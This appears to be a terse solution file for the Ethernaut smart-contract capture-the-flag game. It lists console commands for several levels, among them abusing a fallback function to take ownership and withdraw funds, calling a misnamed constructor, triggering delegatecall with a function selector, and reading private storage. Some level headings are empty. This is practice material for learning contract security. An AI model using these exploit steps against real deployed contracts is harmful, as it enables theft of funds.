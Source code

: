 # 1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
# 2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
# 3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
# 4. Coin Flip

---
# 5. Telephone

---
# 6. Token

---
# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```
---
 # 8. Force

 ---
 # 9. Vault
 ```
 web3.eth.getStorageAt(instance, "1")
 ```
